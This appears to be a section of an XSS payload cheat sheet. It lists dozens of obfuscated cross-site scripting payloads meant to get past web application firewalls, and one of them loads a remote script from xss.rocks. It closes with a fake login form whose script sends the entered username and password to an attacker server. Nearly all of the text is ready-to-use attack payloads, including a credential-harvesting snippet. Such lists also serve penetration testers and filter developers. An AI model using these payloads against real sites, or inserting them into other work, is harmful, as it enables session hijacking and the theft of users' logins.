 ### WAF bypass
```
<a href="javascript&colon;alert&lpar;document&period;cookie&rpar;">REDIRECT TO LOGIN</a>
<iframe/src="data:text/html,<svg onload=alert(1)>">
<iframe src=""/srcdoc='<svg onload=alert(1)>'>
<img/id="alert('XSS')\"/alt=\"/\"src=\"/\"onerror=eval(id)>
<iMG onerror="top['loc\u{61}tion'] = 'javascript:alert\u{28})'" src />
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<img src='1' onerror='alert(0)' <
<img src=1 onerror="s=document.createElement('sCriPt');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);"
<iMG src &gt; onerror="alert&#x000000028;&#x29;" />
<iMG src onload=%ff%00%ffAAA onerror=alert() />
<img src="/" =_=" title="onerror='prompt(1)'">
<img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>
<iNpUt %253e onfocus="&#x000000000000000000000000000000061;lert()" autofocus />
<iNpUt /&#62; id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt &gt; id="x"onfocus="window['\a\l\ert']()" autofocus />
<iNpUt type=image src onerror="prompt(1)">
<iNpUt type=im&#x000000000000000000000000000000061;ge &gt; id="x"oNerRor="window['\a\l\ert']()" src />
<iNpUt x='&#39; /> ' id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&quot; /> " id=""onfocus="window['\a\l\ert']()" autofocus/>
<iNpUt x="&#x22; /> " id=""onfocus="window['\a\l\ert']()" autofocus/> 
<oBjECt data="javascript:window['\a\l\ert']()" />
<sCriPt>$=1,alert($)</sCriPt>
<sCriPt>$=1,\u0061lert($)</sCriPt>
<sCriPt>alert``</sCriPt>
<sCriPt ~~~>confirm(1)</sCriPt ~~~>
<sCriPt>eval('alert\x280\x29');</sCriPt>
<sCriPt>Function('alert\x280\x29')();</sCriPt>
<</sCriPt/sCriPt><sCriPt>eval('\\u'+'0061'+'lert(1)')//</sCriPt>
<</sCriPt/sCriPt><sCriPt ~~~>\u0061lert(1)</sCriPt ~~~>
<sCriPt>setTimeout('alert\x280\x29',0);</sCriPt>
<sCriPt>window.location='javascript:alert(0)';</sCriPt>
<sCriPt x> alert(1) </sCriPt 1=2
<sCriPt x>alert('XSS')<sCriPt y>
</style></sCriPt><sCriPt>alert(1)</sCriPt>
<svg><animate onbegin=alert() attributeName=x></svg>
<svg id=`x`onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg onload=alert(1)//
<svg////////onload=alert(1)>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg><x><sCriPt>alert('1'&#41</x>
```

### Fake authentication form sending credentials to remote server

    <input type="text" name="username" id="username" /><input type="password" name="password" id="password" /><script>function sleep(ms){return new Promise(r => setTimeout(r,ms));}sleep(3000).then(()=> {var user =document.getElementById('username').value;var pass = document.getElementById('password').value;var user_pass = user+"_"+pass;fetch("https://[YOUR_SERVER]?u="+user_pass);});</script>
